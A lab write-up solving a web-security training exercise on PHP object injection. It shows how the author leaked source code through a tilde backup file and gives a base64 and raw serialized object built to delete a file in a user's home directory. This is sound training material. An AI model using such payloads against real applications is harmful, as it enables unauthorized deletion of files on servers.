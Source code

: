 # Description

This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the `morale.txt` file from Carlos's home directory. You will need to obtain source code access to solve this lab.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution

## Leak source code of php
```html
<!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->
```
found php file from view-source `https://0a2e00ee036340908014997b00610017.web-security-academy.net/libs/CustomTemplate.php`

Using tilda `~` we can access source code of php

```
https://0a54003b043e154982060b30009b0076.web-security-academy.net/libs/CustomTemplate.php~
```

1. **Backup File**: Many text editors, such as Emacs, Vim, and some IDEs, append a tilde to the file name to create a **backup copy** of the **original file** before any modifications are saved. This allows users to recover the previous version if something goes wrong during editing.
    
2. **Temporary File**: Some programs create temporary files with a tilde at the end while they are processing the main file. This can be a safeguard to prevent data loss if the program crashes or if there’s an unexpected interruption.

## Payload

```
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MzQ6IgBDdXN0b21UZW1wbGF0ZQB0ZW1wbGF0ZV9maWxlX3BhdGgiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0IjtzOjMwOiIAQ3VzdG9tVGVtcGxhdGUAbG9ja19maWxlX3BhdGgiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9
```

raw php payload, attention null characters removed
```php
O:14:"CustomTemplate":2:{s:34:"CustomTemplatetemplate_file_path";s:23:"/home/carlos/morale.txt";s:30:"CustomTemplatelock_file_path";s:23:"/home/carlos/morale.txt";}
```
